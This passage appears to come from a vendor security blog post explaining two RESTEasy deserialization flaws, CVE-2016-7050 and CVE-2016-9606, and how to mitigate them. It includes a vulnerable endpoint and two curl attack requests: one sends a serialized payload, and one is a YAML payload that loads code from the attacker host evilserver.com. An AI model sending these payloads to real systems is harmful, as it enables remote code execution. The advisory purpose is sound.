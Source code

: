 @Path("/")
public class PoC_resource {

        @POST
        @Path("/concat")
        public Map&lt;String, String&gt; doConcat(Pair pair) {
                HashMap&lt;String, String&gt; result = new HashMap&lt;String, String&gt;();
                result.put("Result", pair.getP1() + pair.getP2());
                return result;
        }

}
</code></pre><p><em>Notice how there is no @Consumes annotation on the doConcat method.</em></p>
<h2>The vulnerabilities</h2>
<p>CVE-2016-7050 took advantage of the deserialization capabilities of SerializableProvider. It was fixed upstream<sup id="fnref:1"><a href="#fn:1" class="footnote-ref">1</a></sup> before Product Security became aware of it. Luckily, the RESTEasy version used in the supported version of JBoss EAP 7 was later than 3.0.15.Final, so it was not affected. It was reported to Red Hat by Mikhail Egorov of Odin.</p>
<p>If a Restful webservice endpoint wasn't configured with a @Consumes annotation, an attacker could utilize the SerializableProvider by sending a HTTP Request with a <code>Content-Type</code> of <code>application/x-java-serialized-object</code>. The body of that request would be processed by the SerializationProvider and could contain a malicious payload generated with ysoserial<sup id="fnref:2"><a href="#fn:2" class="footnote-ref">2</a></sup> or similar. A remote code execution on the server could occur as long as there was a gadget chain on the classpath of the web service application.</p>
<p>Here's an example:</p>
<pre><code>curl -v -X POST http://localhost:8080/example/concat -H 'Content-Type: application/x-java-serialized-object' -H 'Expect:' --data-binary '@payload.ser'
</code></pre><p>CVE-2016-9606 also exploited the default providers of Resteasy. This time it was the YamlProvider which was the target of abuse. This vulnerability was easier to exploit because it didn't require the application to have a gadget chain library on the classpath. Instead, the Snakeyaml library from Resteasy was being exploited directly to allow remote code execution. This issue was reported to Red Hat Product Security by Moritz Bechler of AgNO3 GmbH &amp; Co. KG.</p>
<p>SnakeYaml allows loading classes with a URLClassloader, using it's ScriptEngineManager feature. With this feature, a malicious actor could host malicious Java code on their own web server and trick the webservice into loading that Java code and executing it.</p>
<p>An example of a malicious request is as follows:</p>
<pre><code>curl -X POST --data-binary '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evilserver.com/"]]]]' -H "Content-Type: text/x-yaml" -v http://localhost:8080/example/concat
</code></pre><p><em>Where evilserver.com is a host controlled by the malicious actor</em></p>
<p>Again, you can see the use of <code>Content-Type</code>, HTTP Header, which tricks RESTEasy into using YamlProvider, even though the developer didn't intend for it to be accessible.</p>
<h2>How to stay safe</h2>
<p>The latest versions of EAP 6.4.x, and 7.0.x are not affected by these issues. CVE-2016-9606 did affect EAP 6.4.x; it was fixed in the 6.4.15 release. CVE-2016-9606 was not exploitable on EAP 7.0.x, but we found it was possible to exploit on 7.1 and is now fixed in the 7.1.0.Beta release. CVE-2016-7050 didn't affect either of EAP 6.4.x, or 7.0.x.</p>
<p>If you're using an unpatched release of upstream RESTEasy, be sure to specify the mediaType you're expecting when defining the Restful webservice endpoint. Here's an example of an endpoint that would not be vulnerable:</p>
<pre><code>import java.util.*;
import javax.ws.rs.*;
import javax.ws.rs.core.*;
